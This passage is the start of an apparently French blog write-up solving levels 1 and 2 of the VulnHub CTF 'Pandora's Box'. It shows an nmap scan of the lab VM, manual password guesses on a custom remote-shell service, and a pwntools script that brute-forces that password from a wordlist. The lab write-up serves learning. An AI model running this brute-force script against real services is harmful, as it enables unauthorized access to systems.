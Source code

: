 # Solution du CTF Pandora's Box de VulnHub (levels 1 et 2)

[Pandora's Box](https://vulnhub.com/entry/pandoras-box-1,111/) est un autre de ces vieux CTF (janvier 2015) provenant de VulnHub mais pas des moindres.

La description indique qu'il est centré sur l'exploitation de binaire. Qui dit exploitation de binaire dit reverse-engineering, dit code assembleur, code d'exploitation et par conséquent article de 3km donc je vais couper le CTF en plusieurs parties (en espérant que je parvienne jusqu'au boût).

Voici déjà les solutions des deux premiers niveaux. Indice pour le tout premier : temporisation.

```
Nmap scan report for 192.168.56.83
Host is up (0.0017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 0e0d5d50f27c74075b6f3f63904260eb (DSA)
|   2048 8828b92f201ac4ded27e64382b5648ad (RSA)
|_  256 3b5178ac21260de4aac475cc7d6c0bf3 (ECDSA)
54311/tcp open  nagios-nsca Nagios NSCA
MAC Address: 08:00:27:EA:AD:C9 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ok.... Et pas de ports ouverts pour UDP.

## Rien ne sert de courir ; il faut partir à point.

Le port détecté comme Nagios est en réalité un service custom :

```shellsession
$ ncat 192.168.56.83 54311 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.83:54311.
#######################
# Secure Remote Shell #
#######################
Welcome, please log in
Password: password
Invalid password!
Password: admin
Invalid password!
Password: 123456
Invalid password!
Password: letmein
Invalid password!
```

J'ai écrit un script Python simple pour tenter de casser le mot de passe avec une wordlist :

```python
import sys
from pwnlib.tubes.remote import remote

r = remote("192.168.56.83", 54311)
buff = r.recvuntilS(b"Password: ")
with open(sys.argv[1], encoding="utf-8", errors="ignore") as fd:
    for line in fd:
        r.send(line)
        response = r.readlineS().strip()
        if response != "Invalid password!":
            print(f"Possibly found password {line.strip()}: {response}")
            break
        r.recvuntilS(b"Password: ")
```